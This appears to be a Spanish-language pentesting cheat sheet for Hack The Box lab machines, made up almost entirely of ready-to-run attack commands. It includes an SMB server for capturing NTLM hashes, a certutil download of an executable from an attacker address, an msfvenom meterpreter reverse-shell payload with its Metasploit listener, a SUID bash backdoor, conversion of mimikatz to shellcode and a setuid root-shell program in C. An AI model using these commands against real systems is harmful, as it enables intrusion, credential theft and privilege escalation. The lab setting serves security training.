 rever



## Local port fowarding

esto desde la maquina atacante, es decir, tu mismo, esto se conecta por ssh a la maquina victima y levanta el tunel por ese puerto.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

## smb

crear una carpeta compartida rapida por smb y poder capturar hashes NTLM

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



## mssql

```bash
impacket-mssqlclient  sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```





## Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```






## File trasnfer

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```



## PAYLOAD msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=4444 -f exe -o shell.exe
```


### Listener

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.20
set LPORT 4444
set ExitOnSession false
exploit -j

```


## Modules



```bash
run post/multi/recon/local_exploit_suggester
```





## Windows-exploit-suggester


tenemos que ejecutar primero esto en la maquina *windows* victima

```cmd
sysinfo
```


----------


```bash
python2 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --update
```

```bash
/opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-05-13-mssb.xls --systeminfo sysinfo
```





## bash SUID

```bash
cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
```

## exe2Shellcode

```bash
xxd -i mimikatz.exe > shellcode.h
```



## Find SUID/SGID files

```bash
find / -perm -4000 2>/dev/null
```



## Root bash in C

```c
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```


```bash
gcc poc.c
```